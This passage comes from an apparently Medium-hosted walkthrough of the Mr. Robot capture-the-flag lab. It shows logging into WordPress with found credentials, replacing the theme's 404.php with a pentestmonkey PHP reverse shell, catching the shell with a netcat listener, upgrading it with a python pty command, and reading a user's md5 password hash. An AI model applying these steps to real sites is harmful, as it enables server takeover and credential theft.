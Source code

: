 ![](https://miro.medium.com/v2/resize:fit:1050/1*nq_fyZrkh9esKVFpvGg18g.png align="left")

![](https://miro.medium.com/v2/resize:fit:1050/1*Ygveuh_h1F4NtQ31d9Uigg.png align="left")

And we got password

> *Username: Elliot, Password: ER28–0652*

lets login with this credentials.

![](https://miro.medium.com/v2/resize:fit:1050/1*ey3WikG2XqskyQwlXx_qrg.png align="left")

we have access to wordpress dashboard.  
What to do next?

Out best step would be to inject or replace the php file to malicious one. So that when the website runs the php we get ourself reverse shell.  
For this i will be using php reverse shell from pentestmonkey [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

![](https://miro.medium.com/v2/resize:fit:1050/1*oltpwG0uizG2i3JdEatiGw.png align="left")

Go to Appearance &gt;&gt; Editor &gt;&gt; 404.php then replace the code with the code from pentestmonkey.  
In $IP field add your ip and you can change the port field if you want.

click update file.

In you attacker machine make netcatlistner ready using  
`nc -lnvp 443` make sure to use same port.

![](https://miro.medium.com/v2/resize:fit:1050/1*ExKQhRdmhAYW5aZ1WAP5CA.png align="left")

After your listener is ready , visit directory which can give 404 error.

![](https://miro.medium.com/v2/resize:fit:1050/1*vmaGziXpcz-83dQCVt29jQ.png align="left")

Looking at our listener, we have a shell

![](https://miro.medium.com/v2/resize:fit:840/1*5WAW2s0cyVmMT-HOXkQ0xA.png align="left")

upgrade you shell using  
`python -c ‘import pty;pty.spawn(“/bin/bash”)’`

![](https://miro.medium.com/v2/resize:fit:930/1*dR5ZSWVurBRSygMMnoXKOQ.png align="left")

looking at the home directory of robot user. We can see to files.  
`key-2-of-3.txt` and `password.raw-md5`

we don’t have access to `key-2-of-3.txt` but we can read `password.raw-md5`  
reading the password file reveals what looks like username and md5 encrypted password.

> *robot:c3fcd3d76192e4007dfb496cca67e13b*

![](https://miro.medium.com/v2/resize:fit:1050/1*BAsTgSHZm44uKkEUStINVw.png align="left")
